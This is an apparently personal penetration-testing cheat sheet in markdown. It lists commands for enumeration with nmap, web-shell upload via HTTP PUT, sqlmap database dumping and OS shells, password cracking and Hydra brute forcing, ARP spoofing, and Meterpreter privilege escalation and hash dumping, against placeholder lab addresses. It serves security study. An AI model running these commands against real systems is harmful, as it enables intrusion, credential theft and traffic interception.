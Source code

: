 # Notes

## Routing

`ip route add ROUTETO via ROUTEFROM`  


## Enumeration

### whois

`whois site.com`

### Ping sweep

`fping -a -g 10.10.10.0/24 2>/dev/null  
nmap -sn 10.10.10.0/24`

### Nmap

```bash
# OS Detection, no ping
nmap -Pn -O 10.10.10.10

# def scripts, version check
nmap -sC -sV 10.10.10.10

# above + All ports
nmap -sC -sV -p- 10.10.10.10

# UDP version check
nmap -sU -sV 10.10.10.10
```

## Web Pentesting

### Banner Grabbing

```bash
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
```

### OpenSSL for HTTPS services

```bash
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
```

### Httprint

`httprint -P0 -h 10.10.10.10 -s /path/to/signaturefile.txt`

### HTTP Verbs

`GET, POST, HEAD, PUT, DELETE, OPTIONS`

### PUT shells

```bash
wc -m shell.php
x shell.php

PUT /shell.php
Content-type: text/html
Content-length: x
```

### Directory and File Scanning

```bash
dirsearch.py -u http://10.10.10.10 -e *
gobuster -u 10.10.10.10 -w /path/to/wordlist.txt
```

### Google-fu

```text
site:
intitle:
inurl:
filetype:
AND, OR, &, |, -
```

### SQLMap

```bash
sqlmap -u http://10.10.10.10 -p parameter
sqlmap -u http://10.10.10.10  --data POSTstring -p parameter
sqlmap -u http://10.10.10.10 --os-shell
sqlmap -u http://10.10.10.10 --dump
```



## Exploitation

### Unshadow

This prepares a file for use with John the Ripper `unshadow passwd shadow > unshadow`

### John The Ripper

`john -wordlist /path/to/wordlist -users=users.txt hashfile`

### Hydra

```bash
hydra -L users.txt -P pass.txt -t 10 10.10.10.10 ssh -s 22
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

### SMB / SAMBA

```bash
nmblookup -A 10.10.10.10
smbclient -L //10.10.10.10 -N (list shares)
smbclient //10.10.10.10/share -N (mount share)
enum4linux -a 10.10.10.10
```

### ARP spoofing

```text
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11
```

### Metasploit

```bash
search x
use x
info
show options
show advanced
```

#### Meterpreter

```text
background
sessions -l
sessions -i 1
sysinfo
ifconfig
route
getuid
getsystem
bypassuac
download x /root/
upload x C:\\Windows
shell
use post/windows/gather/hashdump
```

